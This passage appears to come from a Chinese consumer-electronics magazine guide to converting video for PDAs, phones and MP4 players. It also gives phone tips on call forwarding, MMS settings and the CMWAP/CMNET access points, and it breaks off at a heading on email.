从理性的角度来看，选择移动DVD应当将抗震与节能效果作为两大要点，而屏幕大小以及色彩表现仅仅是一种辅助，毕竟解码芯片与液晶面板都集中在几大厂商手中，各个厂商的产品存在明显的同质化现象。

## 四、全能型个人数字助理：高性能PDA

PDA 作为一项新兴产业，正引起人们的广泛关注。毋庸置疑，作为一款移动信息产品，PDA 在体积、价格和性能之间找到了一个很好的平衡点，因此它的前景十分美好。各个领域的厂商们当然不会放过 PDA 这个聚宝盆，PDA 像一把金钥匙，正在打开一扇新的投资领域大门户。

### 1. 将DVD转制成WMV

DVD 片源较为丰富，而 PPC 操作系统已经内置了 Windows Media Player 播放器，将 DVD 转为 WMV 视频格式将是很好的解决方案。推荐大家使用 DVD To Pocket PC，可以到 http://www.onlinedown.net/soft/30307.htm 下载。

DVD To Pocket PC 内置了 WMEncode 9.0，支持多种字幕和音频，而且只需要两个步骤即可完成整个转换过程。安装好 DVD To Pocket PC 之后，通过 Open 菜单打开 DVD-Video 光盘中的 VTS_01_0.IFO 文件，选择 DVD 的 Title。随后选择 Input Setting 菜单，这里可以对 DVD 字幕、编码开始位置等参数进行设定，大家根据自己的要求进行选择即可。

当回到 DVD To Pocket PC 的主界面之后，选择好闪存卡的容量，按下“Action”按钮，此时 DVD To Pocket PC 会自动根据指定大小进行视频转换，并生成相应的 WMV 文件（见图 3）。接下来的步骤就更简单了，将 WMV 文件复制到闪存卡，然后插入 PDA，启动 Windows Media Player 播放器。

### 2. 在PPC上收看RM

RM 视频的压缩率非常高，因此也很适合对文件体积敏感的 PDA。事实上，Real 已经为 PPC 平台推出了专用的 RealOne For PPC，可以播放 RM 视频。有一个非常棘手的问题是，此时的 RM 编码速率不可以超过 100Kbps。太高的编码速率对于屏幕很小的 PDA 没有意义，同时也令 PDA 现有的硬件资源无法顺利解码。

对于已经超过 100Kbps 限制的 RM 文件，需要使用 WMEncode 对其进行转换。但是默认状态下的 WMEncode9 并不支持 RM，因此还需要安装“暴风影音”这个插件（http://ringz.doggiehome.com/download.htm），这样无论是 WMEncode 还是 WMPlayer 都可以兼容 RM 格式。随后打开 WMEncode，通过向导功能选择“转换文件”功能（见图 4）。在此后的向导操作中，一定要将“如何分发内容”选择为“PocketPC”，并且后续的参数不要进行修改，这就能得到完美兼容 PPC 平台的视频文件。最后，将生成后的 WMV 视频文件放在闪存卡上，通过 PDA 专用版的 Windows Media Player 观看。

## 五、口袋中的电影：多媒体智能手机

不少移动电话已经越来越接近 PDA，两者之间的界限越来越模糊。由于多媒体功能的不断增强，手机原有的处理能力已经难以应付。如果一味提升手机芯片的运行频率，则牵涉到重新平衡功耗和成本的问题，而且现有技术还存在一定问题。很多手机厂商现在也采用外加 ASIC 处理器的方式来实现多媒体功能。手机平台提高集成度是一个发展方向，由此实现 MPEG4 播放已经不是新闻。

很多手机实际上已经是一款移动视频播放设备，厂商所要做的仅仅是加入功能强大的视频芯片。目前nVIDIA、Intel以及TI都在这方面投入巨资研发，并已经推出多款实际产品。未来，“拇指现象”可能会彻底消失，因为更加动感的移动视频将会取代无聊的短信。

### 1. 多媒体智能手机的两大操作系统

目前智能手机的操作系统有两大阵营，分别是微软公司的Smartphone系统和Symbian公司研制多年的SymbianOS，后者也是最为流行的手机操作系统。Symbian公司专注于手机操作系统的开发，2003年初已经获得了爱立信、索尼爱立信、诺基亚、摩托罗拉、松下、西门子等众多手机厂商的支持，它们大都正在或将要生产基于这个系统的智能手机产品，这些厂商作为Symbian系统许可证的持有者，手机产量几乎占全球总产量的70%以上（见图5）。

从这个数据可以预见，Symbian绝对是智能手机的主流操作系统之一。采用Symbian系统的手机异常强大，使存放更多软件以及各种大容量多媒体文件成为了可能。现在，为这个平台开发的JAVA程序已经在互联网上盛行，我们可以通过安装这些软件来扩展手机功能，让它无所不能，这也是它与传统手机最大的区别之一，符合个性化的潮流。

在这个领域，靠开发操作系统出身的微软还是个新手，不过依靠强大的研发能力以及掌上电脑Pocket PC系统的经验，微软于2002年底发布了专为手机开发的操作系统Smartphone 2002，以及最近推出的Windows Mobile 6.0。它的发布预示着微软全面进军手机操作系统领域，不过从厂商的反应来看，并没有过多影响现有的Symbian体系，全球手机五大厂商中只有三星购买了微软的软件许可，手机市场占有率还不高。不过，微软的实力不容小视，凭借其强大的性能、友好的界面，以及与PC桌面系统良好的血缘关系，在这个市场上占得一份席位应该并非难事。

### 2. 各种视频格式如何在手机中播放

除了采用Windows Mobile操作系统的智能多媒体手机，部分产品在视频格式的兼容性方面存在明显局限，因此格式之间的转换相当重要。目前兼容性最好的视频格式当属3GPP，但是这一格式在桌面台式机却极为罕见，我们只能通过EO Video中的Converter选项，把RM、ASF、MOV、MPEG4等多种格式转换为普通MPEG1编码，然后再使用NOKIA MultiMedia Converter转换为3GPP格式，在多种视频格式与智能多媒体手机之间架起了一座桥梁。

首先将需要转换的视频文件导入EO Video任务栏，在Converter下的Advance模式进行相关设置（见图6）。如果一切都按缺省值进行转换，那么我们将得到一个巨大的AVI文件，这显然是我们不希望看到的。因此，需要对视频文件进行编码压缩。EO Video为用户考虑得相当周到，只要你的系统安装DivX等MPEG4编码，那么EO Video都可以在转换时进行实时编码，用户还可以对DivX的编码参数进一步设置。

为了获得最佳兼容性，EO Video还可以将流媒体转换为MPEG1格式，只需要选中输出编码即可。在进行转换时，甚至还可以控制输出画面大小和帧速率。由于智能多媒体手机所能支持的视频分辨率一般限定在320×240，超出此分辨率将会自动缩减，而且占据大量的处理器资源，所以强烈建议大家使用320×240的分辨率进行强制转换。设置完一切选项之后，我们只要在Output中填写输出路径，然后执行Start按钮即可。需要做好心里准备的是，尽管EO Video支持MMX和SSE指令，但是其转换速度还是比较慢。最后，打开NOKIA MultiMedia Converter并导入MPEG1编码的MPG文件，将输出分辨率调至QCIF 176×144，这相对于128×96不会增大太多体积，但是得到的3GPP视频质量却提高很多（见图7）。

## 六、MP4移动视频时代

如今MP4的热门程度已经盖过MP3，毕竟视频带来的诱惑力远远超过音频。MP4不同产品的视频兼容格式不尽相同，而且也并非高端产品就能兼容所有格式。对于MP4用户而言，解决视频格式转换是必须要面对的问题。

题，只有这样才能让自己的随身视频应用得更加畅快。

## 1. 主流产品之一：基于Intel Xscale 与TI芯片的MP4

代表产品：AIGO 月光宝盒 MP4-P099、创新 ZEN、爱可视 AV700（见图8）



#### 解码能力分析：

熟悉 PDA 的用户一定不会对 Intel 的 Xscale 处理器感到陌生，因为这正是 Intel 一直在嵌入式平台所采用的主流产品，只不过如今进驻了 MP4 产品线。事实上，Xscale 处理器仅仅是一款功能强大的主芯片，在解码视频时还需要 DSP 芯片以及它的支持；涉及到真正解码时，又依赖软件解码或是 Codec 芯片。以目前的市场情况来看，这类产品基本都可以支持 MPEG4（包括 DivX 和 xVID）、MPEG2、MPEG、WMV、ASF，少数产品支持 RM/RMVB（如 AIGO 月光宝盒 MP4-P099）。对于用户而言，转换为 WMV 格式无疑是最稳妥的方案，兼容性将会非常出色。

- Step1: 下载并安装 Windows Media Encoder9 和 Realplayer V10

制作 WMV 视频需要使用最新的 Windows Media Encoder9，这款软件可以在 Google 上搜索下载。Windows Media Encoder9 的安装过程十分简单，基本上一路“Next”到底即可。Realplayer V10 是为了帮助我们生成解码文件，因此，需要转换 RM/RMVB 的用户也一定要安装，而且必须是 V10 以上版本，不可以“影音风暴”等软件替代。

- Step2: 选择欲转换文件与参数

Windows Media Encoder9 可以将 AVI（包含各种 MPEG4）、MPEG、ASF、RM/RMVB 等格式转换到 WMV。对于非 RM/RMVB 格式文件，大家可以在“新建会话”向导对话框中选择“转换文件”，在设定需要转换的文件之后，最重要的一步便是设定编码速率，建议使用 1 Mbps VBR，音频编码使用普通 CD 音质即可。随后，根据 MP4 屏幕的大小选择相同的分辨率，因为过高的分辨率只会浪费存储空间，对于提高画质起不到任何作用（见图9）。

如果是 RM/RMVB 格式文件，在“新建会话”向导对话框中选择“自定义会话”，随后在“源来自”中选择“文件”，并选定需要转换的 RM/RMVB 文件。接着在“输出”选项栏中取消“自编码器拉传递”的选项，选中“编码到文件”后点击浏览，并选择保存文件的目录和文件名。

- Step3: 设置输出路径并开始编码

最后，直接选定输出路径，这也是编码后文件保存的位置。然后，向导会带领大家回到 Windows Media Encoder9 的主界面，点击绿色的“开始编码”按钮即可。



> 小贴士：转换字幕格式

目前很多 MP4 只能支持 Srt 格式的字幕，而网络上 Sub 格式的字幕也非常流行，就存在字幕格式转换的问题。将 Sub 格式的字幕转换为 Srt 字幕，需要 SubOCR 这个软件的支持。启动 SubOCR，在软件界面中点击“打开”按钮，选择 Sub 字幕文件，这时软件的界面没有任何变化，但字幕已经加载了。接着点击“Command/OCR subtite（命令/识别字幕）”，弹出一个设置对话框，这个对话框的作用是在正式识别字幕前测试当前字幕的识别率。最后点击工具栏上的“保存”按钮把 Srt 字幕保存起来。

### 2. 主流产品之二：基于 MP3 解码芯片的产品

代表产品：纽曼 M860、中恒 DEC F12R（见图10）、奥美嘉 S350



这种播放机在结构上只是以 MP3 解码芯片为主，通过外加的软件支持一些特定的视频格式。在播放音频时几乎支持所有的格式，而视频播放只支持有限的几种格式（MTV、MPV 和 DMV 等等）。同时，这种机器通常屏幕都比较小，一般只有 0.8~1.8 英寸，而且大多数是采用 OLED 和 CSTN 等分辨率不高的屏幕，但用来看电影也还是够用了。

- Step1: 安装 DMV 转换软件

我们平时所接触的视频格式多为 AVI、RM 或者 MPEG，但是这些格式都不能被 MP3 随身听支持，必须先将其转换为 DMV 格式，相应的转换软件可以在 http://www.digilife.com.cn/software/mp3/DMV_setup.rar 下载。安装完成后会自动生成多个版本，建议大家根据自己的操作系统选择。最新的 Ver 2.3 还不成熟，部分用户可能会遇到操作故障，因此这里以 For XP 的老版本为例进行介绍。

- Step2: 转换 DMV 视频格式

这款 DMV 转换软件已经内置人性化操作向导，首先点击“取 WAV 音频”，在弹出窗口中选择“添加文件”，可以导入 WMV、AVI、MPG、DAT、RM 以及一些常见的音频格式。事实上这一步仅仅是截取视频文件中的音频信息，或者也可以直接使用音频文件。转换后我们将得到一个Wav音频文件，不过此时文件体积较大，必须通过主界面中第二步的“Wav转MP3”，可以大幅度减小体积。

- Step3：执行转换操作

第三步将是最为重要的视频转换，点击向导按钮之后选择需要转换的视频，DMV转换软件会自动播放，大家可以在主界面的“起始时间”中设置开始段，然后通过最后的“第四步：完成”按钮来结束整个转换（见图11）。



制作后的文件默认保存在“C:\DMV”目录，将有MP3和DMV两个文件，前者为音频后者为视频文件。在MP3随身听中播放时，必须同时将两个文件上传，而且保存在相同的路径。千万要注意的是，此时一定要保证音频与视频文件的主文件名相同，否则播放的将是“哑巴电影”。

## 3. 视频转换解决方案：RMVB与MPEG4两者选一

硬盘式MP4一般都支持MPEG4编码，少数产品甚至还支持RM/RMVB，因此用户完全可以根据机器的情况来选择格式，而并非只使用微软的WMV格式。相对而言，MPEG4格式的普及性更好，而且综合表现也颇为令人满意，很适合看电影大片（见图12）。



### (1) xVID/DivX编码压缩

xVID与DivX都是MPEG4编码技术，相对而言xVID的效果更好一些，不过普及度远不如后者。在使用任何一者之前，必须先安装相应的编码器（Divx.com以及Xvid.org下载）。xVID与DivX的编码器都没有提供外壳程序，推荐使用VirtualDub。打开需要进行编码转换的AVI文件之后，依次点击“视频”→“压缩”，选择DivX或者xVID编码器。然后回到主界面，点击“音频”→“压缩”，选择普通MP3编码。最后，通过File菜单下的“另存为AVI”命令进行转换。事实上，VirtualDub仅仅是一个外壳，真正起作用的还是xVID与DivX编码器。

### (2) RM/RMVB编码压缩

RM视频给人的印象一直是清晰度不太高，不过，在Real公司推出可改变比特率技术的RMVB格式之后，我们在保存高画质视频时又多了一种选择。制作RMVB需要使用HelixProducer10（到real.com可以下载）。在其主界面按“Ctrl + I”打开需要编辑的AVI文件，打开源文件之后点击“Audiences”，即可打开对视频、音频的设置界面。

需要注意的是，在Templates选框中必须选择一种比特率的VBR Download，不然制作出的将仅仅是RM，而不是RMVB（见图13）。至于编码速率与音频压缩等选项，可以根据自己的需求来选择，在画质与压缩比之间做出均衡的选择。完成编码参数设置之后，回到主界面点击“Encoder按钮”，此时HelixProducer10会立即开始编码。



### 小贴士：让MP4容量“更大”

很多用户都在抱怨MP4的存储空间太小，其实只要对视频质量要求别太高，那么完全可以将视频文件转换成低编码速率，等于无形中加倍了存储空间。以MPEG4（DivX）为例，使用上面为大家介绍的VirtualDub结合编码器即可。将输出格式同样指定为AVI（DivX），然后将压缩选项中的编码速率设置得更低一些，此时得到的视频文件容量更小，而整体画质损失并不大。

#### 选择合理的视频格式

保存一套DVD视频，选择哪一种编码方式往往令人十分头疼。其实，不同编码技术都有自己的特点，大家可以针对性地进行选择。如果追求极高的清晰度，那么高编码速率下的xVID和WMV9将能满足需求；而在渴望拥有较好的压缩比时，RM/RMVB表现更为出色；如今十分普及的DivX也同样出色，其编码速率可以根据需要进行调整。

此外，大家在视频转换过程中切莫反向转换。相同编码速率下RMVB的画质优于MPEG4，而且分辨率越高就越清晰，这已经是一种常识。部分用户仗着软件的强大功能进行反向转换，将MPEG4强制转换为高编码速率的RMVB，甚至提高视频分辨率。可以肯定的是，转换后的视频只会在整体质量上低于源文件，并不会因为格式改变或是分辨率提高而有任何改进。

## 移动通讯




文 / 龚师傅

如果问你使用最频繁的电子设备是什么？毫无疑问是我们随时带在身边的移动电话。移动通讯的迅速普及在很大意义上改变了社会生活。但是你真正用好了手中的电话吗？真正发挥出移动通讯的强大功能了吗？下面就让我们来看看利用移动通讯系统我们都能玩出些什么花样吧。

## 第一篇 语音、短信功能你用好了吗？

一部手机最基本的功能无疑就是语音通话和收发短消息了。但就是这些基本功能，也值得我们去认真研究，发掘出更多功能。

### 一、手机呼叫转移的设置与应用

呼叫转移简单说就是指当你不能接听电话时，可把来电转移到你预先设定另一部电话上的业务。将呼叫转移和语音信箱、移动秘书、全球呼等其它业务配合使用，可以在很大程度上避免来电信息丢失，使我们的通讯更加畅通无阻。

手机呼叫转移有四种方式，一是关机及不可及转移，此功能设置后，当你未开机、无线链路拥塞或超出覆盖区时，所有呼叫你手机的来电将被转移至预先设置的另一号码。二是遇忙转移，即当你正在使用手机通话时，继续打入的电话会自动转移到预先设定的另一个号码上。三是无应答转移，手机处于开机状态，打入的电话接通但无人接听，来电会自动转移到预先设定的另一个号码上。有些手机上还可以设置在多少秒不应答之后才转移。四是无条件转移，将所有呼叫你手机的来电全部转移，你的手机不再振铃。上面四种转移方式中，关机及不可及转移、遇忙转移和无应答转移三种方式，你可以同时设置数种呼叫转移方式，其功能将叠加。而无条件转移具有最高优先级，当设置此项功能后，另三种转移功能自动失效。

呼叫转移可按手机的菜单方式设置，也可按编码方式设置，两种设置方式的效果是一样的，你可采用其中任何一种方式。按手机菜单方式设置，具体方法请参照手机使用说明书。按编码方式设置的方法如下：

*002* 转移到的号码 # (激活无条件呼叫转移) ##002# 取消
*67* 转移到的号码 # (激活 “当本手机占线时转接来电”) ##67# 取消
*62* 转移到的号码 # (激活 “无网络或关机时转接来电”) ##62# 取消
*61* 转移到的号码 # (激活 “无人接听时转接来电”) ##61# 取消

注意在设置呼叫转移号码时，除数字移动电话号码外，固定电话号码前必须加长途区号，包括本地固定电话也要加上区号，这一点很多朋友容易忽视。

手机的呼叫转移是一项很好的功能，我们在适当时时候设置呼叫转移，可以为手机使用带来极大方便。一是对于非单向收费的手机号，在身边有固定电话时，可以将所有呼叫转移至固话，这样可以节省费用及手机耗电。因为呼叫转移的通话费用不超过0.2元每分钟，比大多数接听资费要便宜。二是尽量避免漏接电话。在手机关机、信号不佳时你可以选择将呼叫进行转移，另外对于同时拥有两张手机卡的用户，可在两张卡之间，互相设置不可及呼叫转移到对方，这样别人打任意一个号码都可以找到你。三是可以应对骚扰电话，当你不想接听电话的时候，可以将呼叫转移至某个停机或空号的手机号码上，这样别人打你的手机时就会听到停机或空号的提示。

### 二、手机呼叫等待与多方通话

除了呼叫转移，呼叫等待也是比较有用的功能。申请呼叫等待功能后，当你在与一方进行通话时，可以再接听或拨打第二个电话，同时保持第一个电话，并能实现在两个通话之间进行切换。呼叫等待使你在通话时也不会错失电话，大大提高了通话的灵活性，对于业务繁忙的商务人士是很有用的功能。具体说，当用户A正在与用户B进行通话，此时如果用户C呼叫用户A，用户A将听到间断的“嘟嘟”的等待提示音，同时用户A的手机屏幕上会显示用户C的来电号码，这表明正有第二个呼叫进来，并等待接听，可以按保持键（一般为发送键）接通第二个电话与用户C通话，此时用户B将被保持，并听到间断的“嘟嘟”的保持音。在呼叫等待与保持过程中，用户A可以通过反复按保持键实现在用户B和用户C之间的交替通话。用类似方法还可以在不中断与用户B通话的情况下拨打用户C。如果你的手机卡支持呼叫等待（现在基本上都默认开通），你只要在待机状态下输入以下指令，然后按下“确定”即可。*43#（激活）/ #43#（取消）/ *#43#（查询状态）。要注意该业务的优先级低于“遇忙转移”，因此要使用该功能需确保没有设置“遇忙转移”。

在呼叫等待的基础上，现在有不少地区的移动公司更是提供了多方通话的服务。这样我们可以最多同时与6部电话进行通话（各电话都能听到其他电话的声音），完全就是召开一个小型电话会议的感觉。这对一些中小公司来说，是十分有意义的。建立多方通话的过程一般如下：正常接通第一个电话。接通第二个电话，第一个电话就会被自动保持。按[选项软键]中的建立多方通话，使第二个电话加入三方通话。操作成功后，通话画面上所有电话前的图标都为彩色，所有通话者可以相互听见对方声音。在多方通话状态下，你还可以进行保持、密谈、退出等操作。

### 三、PTT：把手机变对讲机

现在国内有些地区开通了手机PTT对讲机功能。PTT（Push To Talk——简称PTT）的意思是“即按即说”，就是把对讲机的功能移植到手机上。在PTT手机上可设置类似于QQ那样的好友列表，也可以设置多个群组，并能随意修改个人在线或隐身等状态，既能选择某个人单聊，也可以实现三人以上的群组共同对话，还能进行语音短信、家庭会议等复杂业务。PTT业务应用于户外休闲运动的群组呼叫、好友群组之间的聊天也非常适合。PTT功能是基于手机数据网络的一种功能，可以说是将语音进行数字化传输的一种应用。

PTT手机与一般对讲机的不同点是，对讲机毋需通过网络，PTT是通过无线移动网络对话，通话范围不再局限于几公里之内，只有是在移动网络覆盖的地方，就能进行双方对话。PTT业务属于一种新兴的数据服务，与一般数据不同的是，PTT的表现形式是语音。是一种快速信息交换方式，使用非常简单且效率很高。

使用PTT需要得到网络和手机终端两方面的支持。现在市场上支持PTT功能的手机有很多，终端选择上并不是问题，但PTT对网络的数据传输速率有较高要求，目前移动的GPRS速度还不够快，因此PTT功能并未得到大规模普及。不过在EDGE和CDMA1X的支持下，PTT就能获得良好的应用了。近日广东联通的PTT业务正式投入商用运营，通过CDMA1X网络，联通用户之间可以轻松实现手机的对讲功能，而通话资费远低于手机通话（见图1）。



实际上通过智能手机终端，并配合适当软件，我们即可使用PTT功能。在这方面做得最好的就是“PICA”这款软件。安装好这款软件并进行注册后，我们即可实现PTT功能，由于无缝融合了移动网与互联网，PICA集成了即时通信、语音通话、互动、交友、资讯以及娱乐等多种功能，非常值得一试。商用版PICA已经应用于警用、物流、机场等领域。

### 四、彩信、语音短信应用

彩信是移动公司几年前开通的一项增值业务，可以发送包含有文字、图片、声音、动画等多媒体内容的“短信”，不过由于种种原因，了解和使用彩信的朋友并不太多。其实现在使用彩信的费用已经不算贵了（现在发送一条彩信的实际费用在0.25元左右），而且彩信应用领域还是很广的。比如除了发送图片外，我们还可以用手机录制一段话，然后通过彩信发送，这样可能比使用普通文字短信更加省钱。另外对于没有数据接口的手机，通过彩信进行图片和铃声的传递，也比用其他方法更加实用和省钱。

- 要正常使用彩信，首先需要对手机进行一些设置。比如要设置接入点，创建一个接入点名为“彩信”的接入点，打开后可以看到连接名称是“彩信”，数据承载方式为GPRS，接入点名称设为“cmwap”用户名和提示输入密码密码不用设，鉴定设安全，主页一定要设http://mmsc.monternet.com。接下来按选项，选择高级设置，然后把里面的代理服务器地址改为10.0.0.172，代理端口号80，这样就可以了。然后打开菜单信息选项设置彩信，把使用的接入点设置成“彩信”就可以正常收发彩信了。另外彩信除了通过手机进行收发，还能通过【梦网相册】及互联网进行彩信的收发，比如将手机拍摄的照片以彩信方式发送到1729，即可将照片存入彩信相册。你还可以登陆 http://photo.monternet.com 发送及查看彩信。

除了彩信，你还可以拨打12581001向所有移动客户发送一条在普通短信基础上添加的原汁原味特色语音短信。

### 小技巧：移动彩信和联通彩e的互通

如果用移动手机要向联通133用户发送彩信，可在编辑完成后按“更多”，选择“发送信息”，要求输入号码，选择“电子邮件”，在“电子邮件地址”里输入对发的cdma手机号码，并在号码后加入@cumail.com.cn就可以了，如13312345678@cumail.com.cn。对方就可以收到你发送的彩信了。

### 五、手机省钱秘笈

现在手机资费仍然有些居高不下，尤其是在外地使用时，高昂的漫游费加上长途费，会让你心疼不已。其实只要合理使用，我们能找到一些手机的省钱秘笈。

在外地尽量别接听电话，如果你在外地接听一个非漫游地的电话，漫游费加长途费是一分钱也少不了的。但是如果你挂断后再通过IP电话接入号回拨回去，会让你省钱不少。

如果你经常去国外，那么在拨打电话时，使用“**139*电话号码#”，就可以享受到低廉的国际漫游资费。如果你是经常往返固定两地的商务人士，则可以选择使用“一卡多号”业务。在不同漫游地漫游时，能自动切换到当地运营商的号码，显然能省钱不少。

在国外漫游时，请根据需要选择使用“限制受话”功能。你可以选择“限制国际受话”，这样使国际漫游的来电费用大大降低。

## 第二篇 无线上网功能你玩转了吗？

如何用手机进行无线上网是不少朋友关心的话题。可以说用好手机的上网功能才能让我们正确体味到移动通讯带来的乐趣。下面就详细为大家谈谈如何利用手机进行无线上网，以及无线上网的应用情况。

### 一、手机支持上网方式简介

目前手机支持的无线上网方式有很多，包括模拟拨号、GPRS (2.5G)、EDGE、CDMA 1X (2.75G)、3G、WIFI等。其中3G和WIFI (无线局域网，可以被视为是有线局域网的无线化，如图4)，上网速度最快，但目前还未批准。因此在内地市场上正规销售的手机，都不支持这两种上网方式。现在使用最广泛的无线接入方式是中国移动通讯提供的GPRS和中国联通提供的CDMA 1X，它们都是基于手机网络的广域无线上网。从理论上说只要有手机信号的地方就可以实现上网的愿望。目前GPRS实际上网速度大约在40Kbps左右，和以前电话拨号的速度差不多，而CDMA 1X速度能达到100Kbps左右。GPRS和CDMA1X都采用流量计费，有多种包月套餐可选，具体费用请咨询当地运营商。



中国移动还支持模拟拨号接入（17201）方式，但连接速率仅9.6Kbps，按时间计费，每分钟费用约0.15元，30元封顶。一般没有特殊情况，很少有人使用这种方式上网。另外中国电信和网通的小灵通也支持无线模拟拨号接入，连接速度能达到64Kbps，有较大实用价值，具体情况大家可参阅本刊《小灵通也能玩出大花样：小灵通选购及应用指南》一文。


由于GPRS实际上网速度不尽如人意，而3G应用又尚不明了，目前中国移动开始大规模部署GPRS的升级技术：EDGE。EDGE (Enhanced Datarate for GSM Evolution，增强型数据速率GSM演进技术) 目前被称为2.75G，是一种从GSM到3G的过渡技术。EDGE理论上可提供384～473Kbps的移动数据速率和2Mbps的静止速率。从而可提供支持视频流媒体、浏览网络、在线游戏和处理含附件的电子邮件等3G类型的服务。EDGE可最有效地利用现有网络资源，具有成本优势。从GPRS向EDGE的升级不需要进行大规模的网络投资，只需软件上的升级，并且EDGE可以实现GPRS及WCDMA的前后向兼容。现在新上市的中高端手机很多都能够支持EDGE技术。EDGE对普通用户而言是完全透明的，其使用方法与GPRS一样，用户不需要作特殊设置，只要手机和网络支持，将自动开启EDGE连接，而且目前EDGE的使用费用和GPRS一样，手机用户也能享受和火车一样的“提速不提价”待遇。预计在3G大规模普及前，EDGE将成为最有实用价值的无线上网方式（见图5）。

如果你使用PPC智能手机，且内置了WIFI功能，那么强烈建议你安装著名的Skype For PPC软件，这是一款功能强大的网络语音通话软件，可让我们在能连接上WIFI时，拥有优质的语音通话质量，和几乎免费的通话费用（见图2）。

如果你使用塞班智能手机，可安装一款名为“Xrose”的软件，那么就可以免费发送移动网内的短信了（见图3）。而用一款名为“Pingco”的软件，你可以免费发送移动和联通的所有短信。另外值得推荐的是中国移动官方的“飞信”软件，不仅能与QQ互通信息，也具备在手机客户端免费发送短信的功能。灵活使用这些免费功能，能让你省钱不少。





目前在国外，HSDPA（高速下行分组接入）也开始逐步普及，这种移动通信技术实际上也是一种3G技术，只不过它比WCDMA的技术水平更高，一般称之为WCDMA增强版。其下行数据速率能达到惊人的10Mbps。另外源于IP技术的WiMAX广域无线技术（4G），也开始在某些地区得到发展，其覆盖范围能达到50平方公里以上，接入速度高达70Mbps，是最有发展前途的无线宽带接入技术。

在大致了解了目前手机支持的接入方式概况后，下面将重点为大家谈谈目前最主流的无线接入方式GPRS（EDGE）的应用情况。

### 二、CMNET 和 CMWAP 接入的区别

在讲述GPRS上网的具体应用前，让我们先来了解一下CMWAP和CMNET上网的主要区别与适用范围。对于大多数普通手机用户，恐怕很难分清楚到底CMWAP上网和CMNET上网有什么区别、各自的应用范围是什么、什么情况下可以用哪一类型的方式上网？而且稍不注意就会落入CMWAP和CMNET收费不同的陷阱，付出惨重的金钱代价。

在国际上，通常只有一种GPRS接入方式，为什么在中国会有CMWAP和CMNET两兄弟呢？其实这都是“钱”闹的。CMNET和CMWAP是中国移动GPRS网络人为划分的两个不同APN（接入点名称），之所以这样分类是以控制收费为目的，CMNET提供了NAT服务，使用该服务的手机可以直接访问internet。CMWAP只提供了WAP代理和HTTP代理，手机上网能访问的范围有限，接入时只能访问GPRS网络内的IP (10,*,*,*)。因此CMWAP主要用于手机WAP上网，CMNET则可用于PC，笔记本电脑，PDA等设备实现GPRS上网。两者手机上网的方式没有差别，如此划分是中国移动对手机上网服务对象的定位不同，所以其应用范围和收费标准也不同。由于CMWAP是中国移动建设的APN，许多WAP计费业务必须通过CMWAP方式才能计费，因此中国移动会对CMWAP方式使用移动业务的用户在流量费上给予一定优惠，比如很多省市移动会推出不同的GPRS流量套餐，如5元/10M GPRS流量（只限CMWAP方式）。而CMNET由于难以进行业务计费，因此也自然而然地没有什么优惠可讲，收费相对较高。

为了从应用中区别两者的定位，中国移动对CMWAP作了一定的限制，主要表现在CMWAP接入时只能访问GPRS网络内的IP，而无法通过路由访问Internet。我们用CMWAP浏览Internet上的网页就是通过WAP网关协议或它提供的HTTP代理服务实现的，而且由于通过CMWAP的方式访问，需要走移动的网关通过http协议去连接，这样的后果就是速度会变慢，而通过CMNET来连接则拥有完全的Internet访问权，就是直接连接到在internet上，速度会比CMWAP快一些。因为有了上面提到的限制，CMWAP的适用范围就要看WAP网关所提供的支持了。目前，中国移动WAP网关对外只提供HTTP代理协议（80和8080端口）和WAP网关协议（9201端口）。因此，只有满足以下两个条件的应用才能在中国移动的CMWAP接入方式下正常工作（CMNET不受任何的限制）：
一是应用程序的网络请求基于HTTP协议。二是应用程序支持HTTP代理协议或WAP网关协议。比如Java QQ，它有Socket和HTTP两种版本。可用于CMWAP的JavaQQ就是基于HTTP协议的。而采用普通Socket连接方式的QQ，就无法用于CMWAP。通常来说，CMWAP下可以使用的常见软件有：手机内置的浏览器（WAP网关协议），Opera、UCWEB等第三方浏览器或其他网络软件（支持HTTP代理协议，有代理设置）和大多数Java程序（支持WAP网关协议）。

最后要指出，WAP只是一种GPRS应用模式，它与GRPS的接入方式是无关的。WAP应用采用的实现方式是“终端+WAP网关+WAP服务器”的模式，不同于一般Internet的“终端+服务器”的工作模式，主要的目的是通过WAP网关完成WAP-WEB的协议转换以达到节省网络流量和兼容现有WEB应用的目的。WAP网关从技术的角度讲，只是一个提供代理服务的主机，它不一定由网络运营商提供。中国移动GPRS网络目前只有唯一的一个WAP网关：10.0.0.172，用于WAP浏览（HTTP）服务。有一点需要注意，WAP网关和一般意义上的局域网网关是有差别的，标准的WAP网关仅仅实现了HTTP代理的功能，并未完成路由、NAT等局域网网关的功能，这就决定了它在应用上所受到的限制。

### 三、玩转手机终端上网

使用手机终端直接上网我们通常都采用CMWAP接入点，因此在使用手机上网前，请打开设置连接设置接入点，创建一个接入点名为“中国移动GPRS”的接入点，打开后可以看到连接名称是“中国移动GPRS”，数据承载方式为GPRS，接入点名称设为“CMWAP”用户名和提示输入密码密码不用设，鉴定设安全，主页自定，接下来按选项，选择高级设置，然后把里面的代理服务器地址改为10.0.0.172，代理端口号80，这样就可以了。然后打开网络选项设置，把默认接入点设置成“中国移动GPRS”就可以上网了。

#### 1.信息浏览

大多数普通手机内置的WAP浏览器通常功能都比较简单，而且只能浏览WAP网站，不能访问普通的WWW网站。如果你使用智能手机或手机支持JAVA扩展。那么强烈建议你安装第三方的网页浏览软件。目前常用的Opera、NetFront、BROWE、UCWEB等，其中特别推荐大家使用国产的UCWEB。相比其他手机网页浏览器，UCWEB具备很多优势。

UCWEB是一款可运行在各种智能手机和JAVA手机上的WWW与WAP网页浏览器，支持通过CMWAP访问互联网。支持标准的HTML与WML格式文档的读取，以及大部分的JavaScript网页脚本，同时对下载的内容和图片可以进行优化、压缩和定制。借助UCWEB中心服务器，UCWEB可提供极佳的页面浏览速度和最高80%的数据压缩传送。使用用户在手机上得到最快最优的浏览感受（见图6）。



对于PPC或SP智能手机用户，使用内置的PIE就很不错了，因为在系统内集成，PIE启动很快，而且也最为稳定。要通过CMWAP浏览普通网页很简单，只需直接在连接设置中设置代理IP为10.0.0.172:80即可。另外建议大家最好安装PIE插件PIEPlus，增强PIE功能，比如支持同时打开多个浏览窗口（见图7）。



# 数码大玩家

“XROSE”等，都是比较成熟的在线资讯软件，而且都是完全免费的，且支持CMWAP接入，一般而言这类软件的基本功能就是支持RSS阅读，让我们方便的获取网上各类资讯（见图8）。



#### 2.邮件收发

